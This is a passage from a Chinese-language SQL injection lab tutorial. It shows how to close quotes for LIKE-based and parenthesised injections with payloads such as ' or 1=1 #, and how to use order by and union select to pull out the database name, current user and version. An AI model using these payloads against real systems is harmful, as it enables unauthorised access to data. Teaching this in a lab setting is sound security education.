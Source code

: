     select from 表名 where username like ' %k% ';
    
        

这种查询比get多了%号，我们要想办法构造一个合法的闭合。

    select from 表名 where username like ' %666%'or 1=1 #% ';
    
        

我们输入字符查看结果。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Ff6f8a6c03e3e4053801c30358b16834c.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_14%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)-
只要理解，猜测后台如何拼接，设置合法的payload，构造闭合。-
**xx型注入**-
查看后端代码，多除了括号，我们还是进行闭合。-
输入xx’) or 1=1 # ，查看结果。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F55b3af0fd4504ddf956c062c7ab6ff22.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_d3F5LXplbmhlaQ%2Cshadow_50%2Ctext_Q1NETiBAd3lkMjAwMQ%3D%3D%2Csize_11%2Ccolor_FFFFFF%2Ct_70%2Cg_se%2Cx_16)-
所以说只要构造闭合成功就可以了。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F67638f301fe84d5c8a0d413a2c100732.png)

#### 3.4.3SQL Inject漏洞手工测试:基于union联合查询的信息获取( select )

union联合查询:可以通过联合查询来查询指定的数据-
用法举例:-
select username,password from user where id=1 union select 字段1 ,字段2 from 表名-
联合查询的字段数需要和主查询一致!-
打开字符型注入，输入a’ order by 5#。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Ff93621f100a0470a8210f1b7bb8ebf62.png)-
说明第五列不存在。这个时候我们试一下3。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fbccb884bd616418da894682ce29e0068.png)-
说明第三列也不存在。我们再换成2。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fd2f72a923109461995703172e0db5430.png)-
正常报错，意味着主查询里只有两个字段。确认字段后，构建union。

    a' union select database(),uesr()#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F0090519aa4b2429b99ec9ff3d8c6fd66.png)-
这个时候就会把数据库名称，当前用户，当前用户权限显示出来。-
我们还可以查他的版本。

    a' union select version(),4#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fcd1d59174d9f468f81fd5d431a55890e.png)-
这里版本号和数字四就被打印输出来了。-
还可以查其他东西，自己发挥了。以下仅供参考。

> Select version(); //取的数据库版本-
> Select database(); //取得当前的数据库-
> Select user(); //取得当前登录的用户-
> order by X //对查询的结果进行排序,按照第X列进行排序，默认数字0-9 ,字母a-z-
> 思路:对查询的结果使用order by按照指定的列进行排序,如果指定的列不存在,数据库会报错。通过报错判断查询结果的列数,从而确定主查询的字段数。
